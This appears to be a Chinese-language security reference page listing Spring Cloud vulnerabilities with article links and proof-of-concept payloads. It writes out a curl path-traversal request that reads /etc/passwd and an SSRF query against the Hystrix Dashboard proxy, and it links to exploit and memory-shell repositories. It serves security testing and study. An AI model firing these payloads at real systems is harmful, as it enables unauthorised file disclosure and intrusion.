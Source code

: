 ## CVE-2020-5410 Spring Cloud Config目录穿越漏洞

**相关文章**
- [CVE-2020-5410 Spring Cloud Config目录穿越漏洞](https://xz.aliyun.com/t/7877)

**POC | Payload | exp**
```
curl "vulnerablemachine:port/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```

---

## CVE-2020-5412 Spring Cloud Netflix Hystrix Dashboard SSRF

**相关文章**
- [CVE-2020-5412分析复现](https://zhzhdoai.github.io/2020/09/01/CVE-2020-5412%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/)

**POC | Payload | exp**
```
/proxy.stream?origin=http://www.baidu.com
```

---

## CVE-2021-22053 Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability

**POC | Payload | exp**
- [SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053](https://github.com/SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053)

---

## CVE-2022-22947 Spring Cloud Gateway远程代码执行漏洞

**相关文章**
- [从SSRF 到 RCE —— 对 Spring Cloud Gateway RCE漏洞的分析](https://mp.weixin.qq.com/s/w3et7TzqZ4ctyybEWQ82HQ)
- [漏洞武器化之CVE-2022-22947 Spring Cloud Gateway表达式注入回显与内存马构造](https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw)
- [Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)
- [Spring Cloud Function 漏洞复现](https://www.o2oxy.cn/4029.html)

**POC | Payload | exp**
- [lucksec/Spring-Cloud-Gateway-CVE-2022-22947](https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947)

---
